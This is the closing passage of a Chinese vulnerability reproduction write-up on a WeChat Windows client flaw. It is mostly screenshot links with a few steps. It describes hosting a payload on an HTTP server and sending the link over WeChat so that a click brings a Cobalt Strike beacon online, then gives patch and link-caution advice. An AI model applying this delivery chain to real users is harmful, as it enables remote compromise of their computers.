



4、然后搭建一个 http 服务器可以使用 python 开启也可以直接使用 apache，然后发送到微信上点击，cs 上线成功







查看 cs 成功上线



5、查看复现 wx 版本（最新版微信使用默认浏览器打开，无法利用）


6、修复建议：

    ①、将 Windows 版本微信更新到 3.2.1.141 以上的最新版本。

    ②、建议不要乱点别人发送的链接。

* * *


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
